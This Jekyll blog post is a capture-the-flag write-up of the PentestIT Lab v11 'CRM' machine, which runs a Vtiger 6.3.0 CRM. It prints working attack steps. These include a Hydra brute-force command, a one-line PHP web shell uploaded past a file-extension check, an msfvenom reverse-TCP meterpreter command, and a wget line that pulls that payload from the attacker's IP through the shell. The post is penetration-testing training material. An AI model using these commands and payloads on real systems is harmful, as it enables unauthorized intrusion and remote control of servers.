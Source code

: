 ```yaml
---
layout: post
title:  "PentestIT Lab v11 - CRM"
date:   2018-03-04 00:46:00 -0800
categories: Pentesting
---
```

Opening the browser and going to 192.168.101.10 (TCP port 80), shows a welcome page for the lab. This seems to be a blog, and further look into the HTML code, I can see references to Wordpress links. Using WPscan, I learn this site is running the Kittycatfish plugin, which is vulnerable to a SQLi ([WordPress Plugin KittyCatfish 2.2 - SQL Injection][kittycatfish_vuln]). My attempts to exploit this, either manually or through SQLmap, are unsuccessful. I suspect there's some WAF in the middle as I'm getting forbidden responses when using SQLi attempts and also when bruteforcing the Wordpress admin login form. I move on to find something else as with an WAF in the middle, it will be difficult.

From the HTML code, I see a link to http://192.168.101.10:88. Going to the link, I can see there's a Vtiger 6.3.0 web application. Further research, tells me this version is vulnerable to an [Authenticated Remote Code Execution][vtiger_vuln]. Through some web searching, I learn the default credentials are admin:admin, however, I get a invalid username or password. Time to brute force the admin's password.

I launch Burp and configure my browser to use it has a proxy. I then submit the login form with admin:admin credentials. From the Burp history, I get the POST data and the URL path I need to use. I then launch Hydra with the /usr/share/wordlist/sqlmap.txt wordlist from Kali:

{% highlight bash %}
hydra 192.168.101.10 -s 88 http-post-form "/index.php?module=Users&action=Login:__vtrftk=sid%3A0e9ffbd5aee2325cb3254c8d41253bbd7c4bd27a%2C1518930935&username=^USER^&password=^PASS^:error=1" -l admin -P rockyou-60.txt -t 20
{% endhighlight %}

I use the rockyou-60.txt password list from the [Seclists][seclists].

In this login form, when the login fails, you get a 302 redirect to the login page again with the message "Invalid username or password". However, Hydra doesn't follow redirects, but I've noticed that on the 302 response, the Location header contains a error=1 parameter. That's why I'm using it has the failed string.

Going back to the password brute force, after several minutes, Hydra spits the known password: <b>blackstar</b>. Now, with an authenticated session in the Vtiger CRM application, I can try to use the previous exploit found:

I create a file 1.php with the content: {% highlight php %}<? passthru($_GET['cmd']); ?>{% endhighlight %}

This uses the PHP short tags, as the application is checking if the content contains <?php.

I then go to Settings(Small gear on the top right) -> CRM Settings -> Templates -> Company Details -> Edit. I then click the Browse button to add my 1.php file, but first, I set Burp to intercept the form submit. However, there seems to be some Javascript to detect the file extension, which only permits images. I then change my 1.php to 1.jpg and submit the form again, this time with Burp intercept off. I then go to Burp's history and send that POST request to Repeater. I then change the content of the filename from 1.jpg to 1.php and send the request again, maintaing the content type as jpeg:

{% highlight php %}
...
CompanyDetailsSave
-----------------------------2787963551806245971250936184
Content-Disposition: form-data; name="logo"; filename="1.php"
Content-Type: image/jpeg

<? passthru($_GET['cmd']); ?>
...
{% endhighlight %}

Accessing the URL path <code>/test/logo/1.php?cmd=whoami</code>, will tell me that I'm running with www-data user. Sending <code>/test/logo/1.php?cmd=uname -a</code>, I can see this is a Debian Linux system. 

Now it's time to get a proper foothold into the system, so I can start doing proper enumeration. I generate a meterpreter with command:

{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<MY_VPN_IP> LPORT=443 -f elf > 1.elf
{% endhighlight %}

Launch a <code>python -m SimpleHTTPServer</code> to serve the meterpreter and from the browser execute <code>/test/logo/1.php?cmd=wget http://MY_IP:8000/1.elf -O /tmp/1.elf</code>. However, I get a gateway timeout, looks like the server is not allowing egress connections to TCP port 8000. I then tried with TCP port 80 and still no connection. Tried ping (<code>test/logo/1.php?cmd=ping -c1 -w1 MY_IP</code>), and I get no response, so in the end, it looks like there's more restrictions on the egress traffic. Looking at the file /etc/iptables.save (<code>/test/logo/1.php?cmd=cat /etc/iptables.save</code>), I can see it's allowing egress traffic only to 172.16.0.11 and 172.16.0.254:

<pre>
# Generated by iptables-save v1.4.14 on Thu Jul  4 02:14:19 2013
*filter
:INPUT ACCEPT [194:23274]
:FORWARD ACCEPT [1268:354653]
:OUTPUT ACCEPT [155:40731]

## state,lo
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i lo -j ACCEPT

## icmp
-A INPUT -p icmp --icmp-type 8 -j ACCEPT

## ssh
-A INPUT -p tcp --dport 22 -j ACCEPT

## www
-A INPUT -p tcp --dport 80 -j ACCEPT

### DROP OTHER
-A INPUT -j DROP

## OUT
-A OUTPUT -d 172.16.0.11 -j ACCEPT
-A OUTPUT -d 172.16.0.254 -j ACCEPT

-A OUTPUT -d 172.16.0.0/24 -j DROP
</pre>

At this point, my only option was to enumerate using the web shell. I've noticed that after a few minutes, my shell was gone, so I had to upload it again. Having the request ready in Burp Repeater was handy, because I had to upload the web shell many times.

From the webshell I go to <code>/var/www/rce_token.txt</code> and get the CRM token.

[kittycatfish_vuln]: https://www.exploit-db.com/exploits/41919/
[vtiger_vuln]: https://www.exploit-db.com/exploits/38345/
[seclists]: https://github.com/danielmiessler/SecLists/tree/master/Passwords
